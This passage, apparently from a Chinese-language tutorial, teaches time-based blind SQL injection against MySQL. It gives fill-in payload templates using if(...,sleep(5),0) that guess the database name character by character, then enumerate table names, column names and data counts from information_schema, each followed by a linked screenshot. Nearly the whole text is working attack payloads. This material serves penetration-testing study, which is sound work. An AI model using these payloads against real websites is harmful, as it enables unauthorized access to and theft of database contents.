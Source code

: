 第二步：猜解数据库名。
```
and if((select ascii(substr(database(),位数,1))=ascii码),sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql100.png)

猜表名
第一步：判断表名的数量(以便逐个猜表名)
```
and if((select count(table_name) from information_schema.tables where table_schema=database())=个数,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql101.png)

第二步：判断某个表名的长度(以便逐位猜表名的数据)
```
and if((select length(table_name) from information_schema.tables where table_schema=database() limit n,1)=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql102.png)

第三步：逐位猜表名
```
and if((select ascii(substr(table_name,位数,1)) from information_schema.tables where table_schema=database() limit n,1)=ascii码,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql103.png)

猜列名
第一步：判断列名的数量(以便逐个猜列名)
```
and if((select count(column_name) from information_schema.columns where table_name='表名')=个数,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql104.png)

第二步：判断某个列名的长度(以便逐位猜列名的数据)
```
and if((select length(column_name) from information_schema.columns where table_name='表名' limit n,1)=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql105.png)

第三步：逐位猜列名
```
and if((select ascii(substr(column_name,位数,1)) from information_schema.columns where table_name='表名' limit n,1)=ascii码,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql106.png)

猜数据
第一步：判断数据的数量(以便逐个猜数据)
```
and if((select count(列名) from 表名)=个数,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql107.png)
